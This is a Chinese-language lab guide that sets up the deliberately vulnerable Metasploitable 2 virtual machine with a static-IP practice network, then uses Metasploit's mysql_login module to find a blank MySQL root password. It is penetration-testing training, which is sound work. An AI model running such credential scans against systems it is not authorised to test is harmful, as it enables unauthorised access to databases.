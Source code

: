基于 Ubuntu 的系统靶场。

# 1 部署

扫描虚拟机

![扫描虚拟机](./../../../../images/Metasploitable%202/%E6%89%AB%E6%8F%8F%E8%99%9A%E6%8B%9F%E6%9C%BA.png)

升级此虚拟机

![升级此虚拟机](./../../../../images/Metasploitable%202/%E5%8D%87%E7%BA%A7%E6%AD%A4%E8%99%9A%E6%8B%9F%E6%9C%BA.png)

创建此虚拟机的新克隆

![创建此虚拟机的新克隆](./../../../../images/Metasploitable%202/%E5%88%9B%E5%BB%BA%E6%AD%A4%E8%99%9A%E6%8B%9F%E6%9C%BA%E7%9A%84%E6%96%B0%E5%85%8B%E9%9A%86.png)

虚拟机名称

> metasploitable2

位置

> D:\documents\virtual machines\metasploitable2\metasploitable2-vm

**编辑虚拟机设置**

此虚拟机的内存

> 1 GB

处理器数量

> 1

每个处理器的内核数量

> 4

虚拟化引擎

> 虚拟化 Intel VT-X/EPT 或 AMD-V/RVI(V)

网络连接

> 桥接模式
>
> NAT

显示器

> 关闭加速 3D 图形

快照

> 拍摄新快照
>
> 确定

拍摄快照，命名为 部署

# 2 初始化

**修改密码**

用户名

> msfadmin

密码

> msfadmin

修改 msfadmin 密码

```shell
msfadmin@metasploitable:~$ sudo passwd msfadmin
```

修改 root 密码

```shell
msfadmin@metasploitable:~$ sudo passwd root
```

重启，使用 root 登录

**配置网络**

配置网络接口参数

```shell
root@metasploitable:~# vim /etc/network/interfaces
```

```
 7  auto lo
 8  iface lo inet loopback
 
#iface eth0 inet dhcp
auto eth0
iface eth0 inet static
	address 192.168.1.19
	netmask 255.255.255.0
	broadcast 192.168.1.255
	gateway 192.168.1.1

#iface eth1 inet dhcp
auto eth1
iface eth1 inet static
	address 192.168.24.19
	netmask 255.255.255.0
	broadcast 192.168.24.255
```

修改 `dns` 服务器

```shell
root@metasploitable:~# vim /etc/resolv.conf
```

```
# Generated by NetworkManager
nameserver 8.8.8.8
nameserver 8.8.4.4
```

在 `hosts` 文件添加域名映射

```shell
root@metasploitable:~# vim /etc/hosts
```

```
192.168.1.13	kali-23.local
192.168.1.14	cent7-6.local
192.168.1.15	win10-22h2.local
192.168.1.16	win10-1903.local
192.168.1.17	win7-sp1.local
192.168.1.18	winxp-sp3.local
192.168.1.19	metasploitable2.local
192.168.24.20	svr08r2-sp1.local
192.168.1.22	rocky-9.local
```

重启网络服务并测试网络

```shell
┌──(root㉿kali)-[~]
└─# /etc/init.d/networking restart && ping g.cn -c 3
```

关机，快照命名为 初始化 

# 3 使用

## 3.1 检测 mysql 空密码

运行 msf

```shell
┌──(root㉿kali)-[~]
└─# msfdb run
```

查找 mysql 登录相关的模块

```shell
msf6 > search mysql login
```

使用 auxiliary/scanner/mysql/mysql_login

```shell
msf6 > use 0
```

显示 options

```shell
msf6 auxiliary(scanner/mysql/mysql_login) > show options
```

```shell
   BLANK_PASSWORDS   true             no        Try blank passwords for all users
```

> 可以看到这个 exploit 可以检测 mysql 的空密码

设置 rhosts

```shell
msf6 auxiliary(scanner/mysql/mysql_login) > set rhosts 192.168.1.56
```

运行

```shell
msf6 auxiliary(scanner/mysql/mysql_login) > run
```

```shell
[+] 192.168.1.56:3306     - 192.168.1.56:3306 - Found remote MySQL version 5.0.51a
[+] 192.168.1.56:3306     - 192.168.1.56:3306 - Success: 'root:'
[*] 192.168.1.56:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

> 检测到 root 密码为空
>
> 需要黑客与目标的 mysql 版本兼容

---

参考链接

- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)